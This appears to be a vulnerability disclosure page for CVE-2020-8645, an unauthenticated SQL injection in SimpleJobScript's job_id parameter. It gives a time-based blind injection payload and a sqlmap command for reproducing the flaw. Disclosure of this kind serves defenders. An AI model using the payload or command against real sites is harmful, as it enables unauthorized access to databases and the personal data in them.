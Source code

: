```yaml
---
cve: "CVE-2020-8645"
title: "Unauthenticated SQL injection in SimpleJobScript"
images: [/images/cve-mitre.png]
date: 2020-02-05
tags:
- cve
- sql injection
---
```

An issue was discovered in Simplejobscript.com SJS through 1.66. There is an unauthenticated SQL injection via the job applications search function. The vulnerable parameter is `job_id`. The function is `getJobApplicationsByJobId()`. The file is `_lib/class.JobApplication.php`.
<!--more-->

- mitre: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-8645
- public announcement: https://github.com/niteosoft/simplejobscript/issues/9

<hr />

**Description:**  
An issue was discovered in Simplejobscript.com SJS through 1.66. There is an unauthenticated SQL injection via the job applications search function. The vulnerable parameter is `job_id`. The function is `getJobApplicationsByJobId()`. The file is `_lib/class.JobApplication.php`.

**Details:**  
File: `/_lib/class.JobApplication.php`  
Function: `getJobApplicationsByJobId()`  
URL: `/get_job_applications_ajax.php`  
Parameter: `job_id`  

**Payload:**  
```
POST /get_job_applications_ajax.php
job_id=493+AND+(SELECT+9069+FROM+(SELECT(SLEEP(5)))Ufmy)
```

**Steps to Reproduce:**  
```
$ sqlmap --batch --threads=10 --dbms=mysql -u "http://local.simplejobscript.net/get_job_applications_ajax.php" --data="job_id=493" --banner
```

**PoC:**  
![cve-2020-8645 SimpleJobScript sqli](/images/cve-2020-8645.png)
